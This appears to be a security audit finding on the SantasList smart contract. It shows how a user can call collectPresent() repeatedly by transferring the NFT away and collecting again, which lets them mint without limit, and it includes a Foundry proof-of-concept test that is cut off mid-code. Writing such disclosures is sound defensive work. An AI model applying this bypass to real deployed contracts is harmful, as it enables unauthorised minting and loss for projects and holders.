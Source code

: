 ### [H-4] `NICE` and `EXTRA_NICE` users can call `SantasList::collectPresent()` function multiple times with a nifty little trick

**Description:**

There is a check in the `collectPresent()` function to prevent any user from collecting a present more than once 👇🏾;

```solidity
    if (balanceOf(msg.sender) > 0) {
        revert SantasList__AlreadyCollected();
    } 
```

However this check can be gamed as a winner can transfer their `SantasList NFT` (and `SantaToken` if they wish) to another address, and then call the `collectPresent()` again.   
This by-pass can be performed as many times as possible, especially since the `SantasList NFT` doesn't have a `initialSupply`. So, there is a possibility for an infinite mint (of both `SantasList NFT` and `SantaTokens`) with this by-pass.

**Impact:**

Any `NICE` user can mint as much NFTs as they like.

Any `EXTRA_NICE` user can mint as much `SantaTokens` and `SantasList NFTs` as they like.

**Proof of Concept:**

Add the following test to the `SantaListTest.t.sol` file:

```solidity
    function testCanCollectPresentMultipleTimes() public {
        address bonnie = makeAddr("bonnie");
        address clyde = makeAddr("clyde");

        // by-pass as NICE
        vm.startPrank(santa);
        santasList.checkList(bonnie, SantasList.Status.NICE);
        santasList.checkTwice(bonnie, SantasList.Status.NICE);
        vm.stopPrank();

        vm.warp(santasList.CHRISTMAS_2023_BLOCK_TIME() + 1);

        // bonnie collects present as NICE
        vm.startPrank(bonnie);
        santasList.collectPresent();
        santasList.safeTransferFrom(bonnie, clyde, 0); // bonnie transfers NFT to clyde
        santasList.collectPresent(); // bonnie collects present again
        vm.stopPrank();

        assert(santasList.balanceOf(bonnie) == 1);
        assert(santasList.balanceOf(clyde) == 1);

        // bonnie transfers NFT to clyde so as to clear her NFT balance
        vm.prank(bonnie);
        santasList.safeTransferFrom(bonnie, clyde, 1);

        // by-pass as EXTRA_NICE
        vm.startPrank(santa);
        santasList.checkList(bonnie, SantasList.Status.EXTRA_NICE);
        santasList.checkTwice(bonnie, SantasList.Status.EXTRA_NICE);
        vm.stopPrank();

        vm.warp(santasList.CHRISTMAS_2023_BLOCK_TIME() + 1);

        // bonnie collects present as EXTRA_NICE
        vm.startPrank(bonnie);
```